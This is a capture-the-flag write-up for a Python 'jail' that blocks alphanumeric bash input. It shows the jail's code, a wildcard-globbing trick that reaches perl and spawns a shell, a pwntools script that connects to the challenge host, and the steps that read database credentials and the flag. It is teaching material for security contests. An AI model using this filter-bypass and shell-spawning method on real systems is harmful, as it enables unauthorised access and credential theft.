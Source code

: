 ## 21 - NoAlpha

### Description

**Solve**: 6/242

**Score**: 90

In the shadowed realm of Cyberton, a legendary Python jail known as "AlphanoNumera" stands, renowned for its unique security mechanism. Crafted by the enigmatic mastermind, Cipheron, this digital fortress allows bash commands—but with a twist. No alphanumeric characters are permitted within its virtual walls.

Source: [https://stdio-2026-public.2600.in.th/noalpha.zip](https://stdio-2026-public.2600.in.th/noalpha.zip)

Author: ErbaZZ

 `157.230.193.18:10021`

### Solution

```python
import re
import subprocess

while True:
    cmd = input('$ ')
    allowed_commands = ['echo', 'whoami', 'uname'] # TODO: Add other 'safe' commands

    check = cmd

    for command in allowed_commands:
        check = check.replace(command, '')

    if re.search(r'[a-zA-Z0-9!]', check) is None:
        try:
            subprocess.run(cmd, shell=True, executable='/bin/bash', env={'HOME':'/home/ctf'})
        except:
            print("?")
    else:
        print("Nope.")
```

Luckily if we look into a bash man page we can see that bash also allow pattern matching with `?` and `*` character which is similar to regex

```bash
$ nc 157.230.193.18 10021
$ echo *
bin boot dev etc home lib lib64 media mnt opt pg_hba.conf proc root run sbin srv start.sh sys tmp usr var
$ echo ???/???
bin/cat bin/dir bin/pwd bin/sed bin/tar dev/pts dev/shm dev/tty etc/apt etc/gss etc/opt etc/rmt etc/rpc etc/ssl lib/lsb sys/bus sys/dev usr/bin usr/lib usr/src var/lib var/log var/opt var/run var/tmp
$ echo ???/????
bin/bash bin/dash bin/date bin/echo bin/grep bin/gzip bin/more bin/stty bin/sync bin/true bin/vdir bin/zcat bin/zcmp bin/znew dev/core dev/full dev/null dev/ptmx dev/zero etc/dpkg etc/motd etc/perl etc/skel lib/init lib/udev run/lock run/utmp usr/sbin var/lock var/mail
$ ???/????
bin/dash: bin/dash: cannot execute binary file
```

Here we can see that if there's no match for a pattern, the pattern won't expand, but in case that there is a match it will expand to list of matched directories or files, and we can see that `/bin/bash ` which can be called with `???/????` but it will have other binary with the same pattern as arguments, which will cause an error

So, from this point it is likely that you have to find a program with unique pattern path, so we can call it properly, after couple of long minutes, here is what I found

```
$ echo ???/???/*
[...SNIPPED...] usr/bin/perl5.32-x86_64-linux-gnu usr/bin/perl5.32.1 usr/bin/perlbug usr/bin/perldoc [...SNIPPED...]
```

There's a `perl5.32.1` which is a scripting language interpreter which could be used to spawn shell and help us escape from jail, we can call it with `???/???/?????.??.?` since it have `.` in it we can specifically call it without match with any other binaries

```
$ echo ???/???/?????.??.?
usr/bin/perl5.32.1
```

According to https://gtfobins.github.io/gtfobins/perl/ we can spawn shell by using `'exec "/bin/sh";'`

```
$ ???/???/?????.??.?
exec "/bin/bash"
```

Unfortunately we have to also send EOF signal to the `perl` but with `nc` it won't be possible without some config, there probably many ways to go about sending EOF to `perl` in this challenge but for me I just going to use `pwntools`

```python
from pwn import *

io = remote('157.230.193.18', 10021)

io.sendlineafter(b'$', b'???/???/?????.??.?')
io.wait(0.1)
io.sendline(b'exec "/bin/bash"')
io.wait(0.1)
io.sendline(b'\x04') # EOF in ASCII

io.interactive()
```

```bash
$ python shell.py
[+] Opening connection to 157.230.193.18 on port 10021: Done
[*] Switching to interactive mode
 $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
The flag is in a locally hosted postgresql database.

Database: flag
Username: ctf
Password: 4802691a4cfdc98ed215717cc8efb529
$ psql -h 127.0.0.1 -U ctf -d flag
Password for user ctf: $ 4802691a4cfdc98ed215717cc8efb529

$ select * from flag;
                     flag                     
----------------------------------------------
 STDIO23_21{810fc25e2373f4669ba5cc28eeec2c93}
(1 row)
```

And just like that, we get the flag `STDIO23_21{810fc25e2373f4669ba5cc28eeec2c93}`
